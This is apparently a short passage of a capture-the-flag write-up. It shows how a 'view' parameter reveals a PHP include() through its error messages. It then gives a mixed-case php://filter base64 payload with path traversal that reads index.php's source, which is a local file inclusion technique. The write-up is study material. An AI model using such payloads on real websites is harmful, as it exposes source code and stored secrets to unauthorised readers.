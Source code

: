 1. Try `?view=cat;dog` give us following error, which is a PHP include().
```
Warning: include(cat;dog.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'cat;dog.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
``` 
2.Use `pHp://FilTer/convert.base64-encode/resource=./cat/../index` to read source of index.php

